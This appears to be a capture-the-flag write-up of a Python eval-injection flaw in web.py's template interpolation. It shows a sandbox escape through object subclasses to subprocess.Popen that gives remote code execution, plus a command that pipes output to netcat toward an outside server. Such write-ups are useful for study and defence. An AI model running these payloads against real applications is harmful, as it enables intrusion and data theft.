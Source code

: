 ```python
        else:
            chunks.append((0, format[pos:dollar + 1]))
            pos = dollar + 1 + (nextchar == "$")

    if pos < len(format): 
        chunks.append((0, format[pos:]))
    return chunks
```

If the value entered in *_interpolate* function is **${shpik}**, it returns **shpik** and executes it through eval.

It is python eval injection problem :)

I modified app.py and used it to do eval injection.

```python
# coding: UTF-8
import os
import web
import urllib
import urlparse
from Crypto.Cipher import DES

web.config.debug = False
ENCRPYTION_KEY = 'megnnaro'

urls = (
    '/', 'index'
)
app = web.application(urls, globals())
db = web.database(dbn='sqlite', db='db.db')

if __name__ == "__main__":
	while 1:
		try:
			limit = raw_input('>> ')
			if limit=='q':
				break
			print(eval(limit,{'__builtins__':object()}))
		except:
			continue
```

I found Popen class and attempted RCE.

```
>> ([i for i in ().__class__.__base__.__subclasses__() if i.__name__ == 'Popen'])[0]('ls',shell=1)
<subprocess.Popen object at 0x7fb5d065f6d0>
app.py	db.db
>> ([i for i in ().__class__.__base__.__subclasses__() if i.__name__ == 'Popen'])[0]('ls | nc [SERVER] [IP]',shell=1)
<subprocess.Popen object at 0x7fb5c86a7610>
```
